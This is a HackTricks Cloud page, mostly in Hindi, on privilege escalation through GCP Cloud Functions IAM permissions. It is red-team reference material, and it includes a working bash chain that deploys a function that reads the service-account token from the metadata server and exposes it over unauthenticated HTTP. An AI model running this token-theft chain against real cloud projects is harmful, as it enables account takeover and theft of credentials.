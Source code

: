 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions के बारे में अधिक जानकारी:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **मनमाने (दुर्भावनापूर्ण) कोड के साथ एक नई Cloud Function बना सकता है और इसे एक Service Account असाइन कर सकता है**। फिर, Service Account टोकन को मेटाडेटा से लीक करके इसके विशेषाधिकारों को बढ़ा सकता है।\
फ़ंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।

इस विधि के लिए एक्सप्लॉइट स्क्रिप्ट्स [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) और [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) पाई जा सकती हैं और प्रीबिल्ट .zip फ़ाइल [यहाँ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) पाई जा सकती है।

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

इन विशेषाधिकारों के साथ एक हमलावर **एक फ़ंक्शन के कोड को संशोधित कर सकता है और यहां तक कि संलग्न सेवा खाते को भी संशोधित कर सकता है** ताकि टोकन को बाहर निकाला जा सके।\
फ़ंक्शन को ट्रिगर करने के लिए कुछ विशेषाधिकारों की आवश्यकता हो सकती है।
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--trigger-http \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA tokin calling the new function code
gcloud functions call <cloudfunction-name>
```
The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

इस अनुमति के साथ आप एक **साइन किया हुआ URL प्राप्त कर सकते हैं ताकि एक फ़ाइल को एक फ़ंक्शन बकेट में अपलोड किया जा सके (लेकिन फ़ंक्शन का कोड नहीं बदलेगा, आपको इसे अपडेट करने की आवश्यकता होगी)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

हमलावर के दृष्टिकोण से केवल इस अनुमति का कितना उपयोगी है, यह निश्चित नहीं है, लेकिन जानना अच्छा है।

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

अपने आप को किसी भी पिछले **`.update`** या **`.create`** विशेषाधिकार दें ताकि आप बढ़ा सकें।

### `cloudfunctions.functions.update`

केवल **`cloudfunctions`** अनुमतियाँ होने पर, बिना **`iam.serviceAccounts.actAs`** के आप फ़ंक्शन को अपडेट नहीं कर पाएंगे, इसलिए यह एक वैध PRIVESC नहीं है।

### बकेट लिखने की अनुमतियाँ

आप सोच सकते हैं कि एक हमलावर जिसके पास **बकेट पर लिखने की अनुमतियाँ** हैं जहाँ Cloud Functions कोड संग्रहीत है, वह **कोड को संशोधित कर सकता है** `function_code.zip` को ओवरराइट करके और फिर फ़ंक्शन को **मनमाना कोड निष्पादित** कर सकता है।

{% hint style="success" %}
**हालांकि, यह सच नहीं है, केवल बकेट के अंदर कोड को ओवरराइट करने से उस कोड को संशोधित नहीं किया जाएगा जो निष्पादित हो रहा है।**
{% endhint %}

## संदर्भ

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}
